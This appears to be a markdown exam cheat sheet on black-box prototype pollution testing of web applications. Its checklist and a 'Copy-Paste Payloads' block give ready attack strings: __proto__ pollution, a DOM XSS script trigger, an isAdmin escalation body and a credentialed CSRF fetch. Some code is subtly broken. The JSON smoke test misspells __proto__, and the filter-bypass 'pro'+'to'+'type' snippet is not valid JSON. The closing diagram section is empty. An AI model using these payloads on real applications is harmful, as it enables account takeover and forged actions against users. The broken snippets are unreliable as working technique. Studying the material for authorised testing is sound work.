

## aliases: ["Prototype Pollution Black‑Box"]  
tags: [pentest, prototype-pollution, strategy]

# Prototype Pollution Attack Strategy (Black‑Box)

> [!info]  
> **Purpose:** Structured guide for a black‑box web‑app penetration test exam.  
> **Format:** Callouts, bold, _italic_, underlined sections, tables, and Mermaid diagrams. No fluff.

---

## **1. Indicators to Spot**

> [!tip]  
> Watch for these _signatures_ in application behavior or responses:

- **Deep‑merge parameters**
    
    - Examples: `settings=…`, `config`, `options`, `prefs`
        
    - Underlying libraries often accept JSON-encoded objects.
        
- **Library Artifacts**
    
    - Response hints: `dparam`, `qs.parse`, `jQuery.extend`, `lodash.merge`
        
- **Reflective Endpoints**
    
    - UI or API echoing user inputs without strict sanitization
        
- **Arbitrary JSON Acceptance**
    
    - Endpoints accepting free-form JSON payloads
        
- **Error Patterns**
    
    - Malformed JSON or nested keys causing unusual client‑side errors
        

---

## **2. Attack Checklist**

|Step|Action|Example|
|---|---|---|
|**Parameter Recon**|Capture GET/POST parameters via Burp Proxy|`GET /dashboard?message=test``POST /tasks/create …`|
||Identify complex parameters (arrays, nested objects)|`GET /settings?config={"theme":"dark","prefs":{"grid":true}}`|
|**Smoke Tests**|Append prototype payloads|`?__proto__.polluted=true`JSON: `{"__proto":{"polluted":true}}`|
|**Reflection Verification**|Test simple reflection|`?message=test` → appears in UI|
|**Sanitization Bypass**|Test direct XSS, then pollute prototype|Direct: `?message=<script>alert(1)</script>`Pseudo: `?__proto__.message=<script>alert(1)</script>`|
|**Sink Validation**|Locate dangerous sinks (DOM, eval, auth checks)|`innerHTML`, `eval()`, `if(user.isAdmin)`|
|**Exploit Crafting**|Combine source+gadget+sink|`/dashboard?__proto__.message=<script>alert(1)</script>`|

---

## **3. Copy‑Paste Payloads**

> [!info]  
> Rapid insertion payloads for different contexts.

```plaintext
// Confirm pollution
?__proto__.polluted=true
?constructor.prototype.polluted=true

// DOM XSS trigger
?__proto__.message=<script>alert(1)</script>

// JSON endpoint
{"__proto__":{"isAdmin":true}}

// Auth‑action CSRF
<script>
  fetch('/tasks/create', {
    method:'POST',
    headers:{'Content-Type':'application/x-www-form-urlencoded'},
    body:'title=hacked&status=pending',
    credentials:'include'
  });
</script>
```

---

## **4. Tools & Techniques**

> [!tip]  
> Recommended tooling and flags.

- **Burp Suite**
    
    - **Proxy**: capture all parameters
        
    - **Repeater**: iterative payload delivery
        
    - **Intruder**: automated injection
        
- **DOM Invader (Pro)**
    
    - Enable _Prototype Pollution_ under **Attack Types**
        
    - Automate gadget/sink discovery
        
- **Browser DevTools**
    
    - `console.log({}.polluted)` to verify
        
    - **Breakpoints** on `innerHTML`, `eval`
        
- **HTTP Clients**
    
    - `curl`, `httpie` for scripted JSON tests
        

---

## **5. Pitfalls & Exam Hints**

> [!warning]  
> Common pitfalls and time‑saving hints.

- **Literal Filters**: if `__proto__` blocked, use string concatenation:
    
    ```json
    {"pro"+"to"+"type":{"polluted":true}}
    ```
    
- **State Caching**: clear `localStorage`, cookies between tests
    
- **Content Types**: test both `application/json` and form‑encoded
    
- **Prioritization**: focus on endpoints with deep‑merge hints (`settings`, `config`)
    
- **Validation**: confirm via behavior change, not just server errors
    

---

## **6. Attack Flow Diagram**

> [!diagram]  
> Sequence of a prototype pollution exploitation.



---
